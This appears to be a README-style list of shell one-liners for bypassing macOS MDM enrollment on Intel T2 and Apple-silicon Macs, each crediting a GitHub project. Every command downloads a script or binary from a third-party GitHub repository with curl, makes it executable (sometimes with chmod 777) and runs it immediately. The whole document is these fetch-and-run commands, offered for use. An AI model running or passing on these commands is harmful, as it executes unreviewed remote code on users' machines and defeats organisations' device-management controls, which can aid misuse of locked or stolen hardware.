 # mdms 
#mdm from https://github.com/nikhillalkota/mdm-bypass/blob/test/script.sh

curl https://raw.githubusercontent.com/Hajcuska/mdm/main/script.sh -o macbook-mdm-bypass.sh; \
chmod +x macbook-mdm-bypass.sh; \
sh macbook-mdm-bypass.sh;


#mdm from https://github.com/gamethapcam/mdm-bypass/tree/main
#M2chip-Apple  T2Chip-Intel
#intel

curl -# https://raw.githubusercontent.com/Hajcuska/mdm/main/T2Chip -o file && chmod 777 ./file && ./file
#apple

curl -# https://raw.githubusercontent.com/Hajcuska/mdm/main/MChip -o file && chmod 777 ./file && ./file



#mdm from https://github.com/EightAugusto/macbook-mdm-bypass

curl https://raw.githubusercontent.com/Hajcuska/mdm/main/8Augusto-macbook-mdm-bypass.sh -o macbook-mdm-bypass.sh; \
chmod +x macbook-mdm-bypass.sh; \
sh macbook-mdm-bypass.sh;

#mdm from https://github.com/eudy97/MDM-bypass

curl https://raw.githubusercontent.com/Hajcuska/mdm/main/eudy97-MDM-bypass.sh -o MDM-bypass.sh && chmod +x ./MDM-bypass.sh && ./MDM-bypass.sh

#mdm from https://github.com/gdanko/mdm-bypass

curl https://raw.githubusercontent.com/Hajcuska/mdm/main/gdanko-mdm-bypass.sh -o mdm-bypass.sh && chmod +x ./mdm-bypass.sh && ./mdm-bypass.sh


